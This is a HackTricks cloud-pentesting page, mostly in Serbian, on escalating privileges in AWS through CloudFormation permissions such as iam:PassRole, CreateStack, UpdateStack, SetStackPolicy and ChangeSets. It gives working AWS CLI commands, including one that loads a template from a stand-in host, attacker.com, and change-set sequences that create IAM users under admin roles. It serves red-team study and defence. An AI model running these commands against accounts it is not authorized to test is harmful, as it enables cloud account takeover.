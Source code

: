 # AWS - Cloudformation Privesc

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## cloudformation

Za više informacija o cloudformation proverite:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može eskalirati privilegije** kreiranjem **CloudFormation stack-a** sa prilagođenim šablonom, hostovanim na njihovom serveru, da **izvrši akcije pod dozvolama određenog rola:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnom dozvolom **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je navedena.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** da ga ažurirate i eskalirate privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` dozvola se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stakom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je navedena.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu, ali **nemate `iam:PassRole`**, i dalje možete **ažurirati stakove** koji se koriste i zloupotrebiti **IAM uloge koje su već povezane**. Proverite prethodni odeljak za primer eksploatacije (samo nemojte navoditi nijednu ulogu u ažuriranju).

Dozvola `cloudformation:SetStackPolicy` se može koristiti da **dajte sebi `UpdateStack` dozvolu** nad stakom i izvršite napad.

**Potencijalni uticaj:** Privesc na cloudformation servisnu ulogu koja je već povezana.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolama da **prođe ulogu i kreira & izvrši ChangeSet** može **kreirati/ažurirati novi cloudformation stak i zloupotrebiti cloudformation servisne uloge** baš kao sa CreateStack ili UpdateStack.

Sledeća eksploatacija je **varijacija**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) koristeći **ChangeSet dozvole** za kreiranje staka.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti za **dodeljivanje sebi `ChangeSet` dozvola** nad stekom i izvršavanje napada.

**Potencijalni uticaj:** Privesc na cloudformation servisne uloge.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je kao prethodna metoda bez prosleđivanja **IAM uloga**, tako da možete samo **zloupotrebiti već pridružene**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potential Impact:** Privesc do cloudformation servisne uloge koja je već povezana.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao zloupotrebiti ove dozvole da kreira/aktualizuje StackSets kako bi zloupotrebio proizvoljne cloudformation uloge.

**Potential Impact:** Privesc do cloudformation servisnih uloga.

### `cloudformation:UpdateStackSet`

Napadač bi mogao zloupotrebiti ovu dozvolu bez passRole dozvole da ažurira StackSets kako bi zloupotrebio povezane cloudformation uloge.

**Potential Impact:** Privesc do povezanih cloudformation uloga.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
